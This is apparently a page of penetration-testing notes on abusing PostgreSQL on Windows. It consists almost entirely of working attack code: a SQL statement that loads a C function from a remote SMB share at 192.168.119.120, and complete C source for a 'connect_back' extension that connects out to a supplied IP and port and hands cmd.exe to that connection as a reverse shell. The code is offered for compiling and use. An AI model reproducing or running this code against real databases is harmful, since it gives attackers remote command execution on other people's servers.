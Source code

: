 ```PSQL
CREATE OR REPLACE FUNCTION <psql function name>(text, integer) RETURNS void AS $$\\192.168.119.120\<samba share>\<file>$$, $$<function that will be called>$$ LANGUAGE C STRICT;
SELECT <psql function name>($$<ip>$$, <port>);
```
#### Reverse Shell
Example reverse shell - compile this in Visual sudio:
```C
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	hax.sin_port = htons(PG_GETARG_INT32(1)); 
	hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));
	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
}
```
resources/rev_shell.c